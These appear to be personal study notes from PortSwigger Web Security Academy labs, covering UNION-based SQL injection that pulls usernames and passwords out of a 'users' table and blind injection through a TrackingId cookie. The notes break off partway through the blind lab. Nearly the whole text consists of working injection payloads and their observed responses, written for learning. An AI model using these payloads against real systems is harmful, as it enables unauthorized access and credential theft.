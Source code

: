 **Target:** log in as the `administrator` user.

`web-security-academy.net/filter?category=` the vulnrable parameter with SQLI.

DB contains, table called `users`, with columns called `username` and `password`.

- `' /**/ --` -> 200 OK AND `' #--` -> 500 Server Error.
  
  - DB is **Microsoft or PostgreSQL**. no need for **FROM** identify.

- `' UNION SELECT NULL, NULL --` -> 200 OK
  
  - query select **2 columns**.

- `' union select username, password from users --` -> 500 server Error
  
  - may there is confilict in datatypes

- `' union select NULL, 'sdada' from users --` -> 200 OK
  
  - seconed column datatype is string.

- `' union select 'sdada', NULL from users --` -> 500 server error
  
  - seconed column datatype not string **(makes confilict)**.

- `' union select NULL, username || '~' || password from users --` -> 200 OK
  
  - show all users data **(target located)**.
  
  - DB is **PostgreSQL** (note that it use `||` in concatinate Microsoft use `+`).

---

## [Lab: Blind SQL injection with conditional responses | Web Security Academy](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)   *try python script*

application uses a tracking cookie for analytics

The database contains a different table called `users`, with columns called `username` and `password` 

- `category` prameter and request body in form not vulnarable.

- `Cookie: TrackingId=Mmw4JoCqtHFaEmUF'` -> 200 OK 
  
  - is vulnarable with sqli (make welcome message dissapear).
  
  - if query is correct welcome message  appear.

- `Cookie: TrackingId=Mmw4JoCqtHFaEmUF' AND '1'='1` -> `Welcome back` message appears.

- `Cookie: TrackingId=Mmw4JoCqtHFaEmUF' AND '1'='2` -> `Welcome back` message does not appear
  
  - `Cookie: TrackingId=` is vulnarable with blind sqli (`Welcome back` message the indicator )

- `' AND (select '1' from users)='1` -> false
  
  - subquery return more than one row this mean more '1' which return 0 rows

- `' AND (select '1' from users limit 1)='1`-> true
  